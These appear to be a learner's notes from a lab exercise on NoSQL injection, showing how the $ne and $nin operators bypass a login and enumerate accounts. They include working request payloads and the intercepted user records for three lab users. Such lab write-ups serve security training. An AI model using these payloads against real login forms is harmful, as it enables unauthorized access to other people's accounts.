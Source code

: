 ![[Pasted image 20230101150357.png]]

![[Pasted image 20230101151209.png]]

When bypassing the login screen using the $ne operator, which user are you logged in as?

*admin*


### Logging in as Other Users

Logging in as other users

We have managed to bypass the application's login screen, but with the former technique, we can only login as the first user returned by the database. By making use of the $nin operator, we are going to modify our payload so that we can control which user we want to obtain.

First, the $nin operator allows us to create a filter by specifying criteria where the desired documents have some field, not in a list of values. So if we would want to log in as any user except for the user admin, we could modify our payload to look like this:

![](https://i.imgur.com/z2oTuR1.png)  

This would translate to a filter that has the following structure:

`**['username'=>['$nin'=>['admin'] ], 'password'=>['$ne'=>'aweasdf']]**`

Which tells the database to return any user for whom the username isn't admin and the password isn't aweasdf. As a result, we are now granted access to another user's account.

Notice that the $nin operator receives a list of values to ignore. We can continue to expand the list by adjusting our payload as follows:

![](https://i.imgur.com/jYM2KHZ.png)  

This would result in a filter like this:  

`**['username'=>['$nin'=>['admin', 'jude'] ], 'password'=>['$ne'=>'aweasdf']]**`

This can be repeated as many times as needed until we gain access to all of the available accounts.  

Answer the questions below

```
user[$nin][]=admin&pass[$ne]=witty1&remember=on

do intercept

User:	pedro
Password:	************
Full Name:	
email:	pcollins@nosql.int


user[$nin][]=admin&user[$nin][]=pedro&pass[$ne]=witty1&remember=on

do intercept

User:	john
Password:	************
Full Name:	
email:	jsmith@nosql.int

user[$nin][]=admin&user[$nin][]=pedro&user[$nin][]=john&pass[$ne]=witty1&remember=on

do intercept

error cz only there are 3 users

```